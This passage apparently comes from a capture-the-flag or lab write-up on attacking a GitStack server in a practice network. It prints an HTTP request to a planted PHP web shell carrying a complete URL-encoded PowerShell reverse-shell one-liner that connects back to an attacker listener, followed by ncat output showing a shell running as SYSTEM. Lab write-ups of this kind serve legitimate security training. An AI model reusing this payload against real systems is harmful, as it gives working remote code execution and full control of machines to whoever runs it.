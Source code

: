 ```
POST /web/exploit-Ferrari404.php HTTP/1.1

Host: 10.200.72.150

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: csrftoken=lcywMkTG91NfRDIvR5VxWd1DB3JaJ7Rp; sessionid=0cabb9edc4c9612c71e3c3e44f2a3020

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

Content-Length: 12



a=powershell.exe+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.200.72.200',30603)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

Now let's go ahead and hit send to get our reverse shell!

### Win! We now have a shell on 2 of the devices in the network!

```
./nc-Ferrari -lvnp 30603
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::30603
Ncat: Listening on 0.0.0.0:30603
Ncat: Connection from 10.200.72.150.
Ncat: Connection from 10.200.72.150:50456.
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

## Task 21: [Git Server] Stabilisation & Post Exploitation
